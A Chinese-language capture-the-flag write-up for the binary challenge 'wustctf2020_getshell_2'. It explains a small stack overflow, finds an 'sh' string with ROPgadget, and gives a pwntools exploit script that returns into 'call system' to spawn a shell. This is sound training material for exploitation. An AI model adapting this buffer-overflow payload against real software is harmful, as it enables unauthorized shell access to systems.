



> `shell`函数汇编代码

- `ROPgadgets`字符串的获取
- `call`指令的使用

1. 在漏洞函数`vulnerable`中存在溢出,但是溢出空间很小,只有`8`个位置(两个栈空间)

2. 在`shell`函数中存在`system`函数同时有一串字符串,字符串中有`/sh`

   ```shell
   bamuwe@qianenzhao:~$ ROPgadget --binary wustctf2020_getshell_2 --string 'sh'
   Strings information
   ============================================================
   0x08048670 : sh
   ```

   

3. 溢出到`call system`从栈中得到`/sh`传入参数得到shell

在这里只有两个栈空间可以使用,所以不能用`plt_system`,因为`plt`的时候参数是从后第五位开始的,而`call`指令的函数,直接是栈上后四位传入,题目条件限制了只有两个栈空间能使用,所以只能通过上述方法

```python
from pwn import *
io = process('./wustctf2020_getshell_2')

payload = b'A'*(0x18+4)+p32(0x08048529)+p32(0x08048670)
io.sendline(payload)
io.interactive()
```

by_the_way:这题一开始我是想用栈迁移来做,但是能力不足水平有限,搞了一会儿没耐心了,转而就用这种简单的办法,日后顾盼生姿.
